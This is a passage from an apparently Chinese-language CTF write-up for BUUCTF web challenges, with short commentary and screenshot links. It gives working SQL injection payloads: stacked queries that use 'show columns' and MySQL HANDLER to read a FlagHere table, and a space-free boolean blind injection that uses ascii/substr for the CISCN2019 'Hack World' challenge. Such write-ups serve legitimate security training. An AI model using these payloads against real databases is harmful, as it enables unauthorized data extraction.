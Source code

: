 ```
1'; show columns from FlagHere;# 爆列名
```

<img src="/images/buuctf-web/image-20221018091457650-166704781973581.png" alt="image-20221018091457650" style="zoom:67%;" />

```
1';handler FlagHere open;handler FlagHere read first; 读取数据
```

<img src="/images/buuctf-web/image-20221018091846885-166704781973582.png" alt="image-20221018091846885" style="zoom:67%;" />



<br>

***

<br>

# [CISCN2019 华北赛区 Day2 Web1]Hack World



经过测试,空格被过滤了,那么使用**括号**来代替

```
1=if(ascii(substr((select(flag)from(flag)),1,1))=102,1,0)   //ascii码102为f
```

<img src="/images/buuctf-web/image-20221018095142467.png" alt="image-20221018095142467" style="zoom:67%;" />
